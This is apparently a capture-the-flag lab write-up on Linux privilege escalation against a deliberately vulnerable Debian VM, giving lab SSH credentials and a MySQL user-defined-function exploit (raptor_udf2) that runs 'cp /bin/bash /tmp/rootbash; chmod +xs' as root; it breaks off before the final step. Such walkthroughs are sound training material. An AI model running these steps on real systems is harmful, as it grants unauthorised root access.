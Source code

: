# Linux Privilege Excalation
# 23-05-2022
# little human
# level : medium


## Deploy the vulnerable Debian VM

> we need to connect to the machine using ssh (user:password123)
```
ssh user@10.10.11.137
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Run the 'id' command. What is the result ? | uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev) |



## Service Exploits

> mysql service exploit

> compile the tool called raptor_udf2.c

```
gcc -g -c raptor_udf2.c -fPIC
```
> run the program to generate a raptor_udf2.so file
```
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
> now connect to the mysql service as root
```
mysql -u root
```

> inside the mysql shell we have to run the following command to create a User Defined Function named "do_system" using our compiled exploit:

> replace the `raptor_udf2.so` file path if necessary

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
> now copy the /bin/bash to /tmp/rootbash and set the SUID permission
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
> finally it's time to exploit
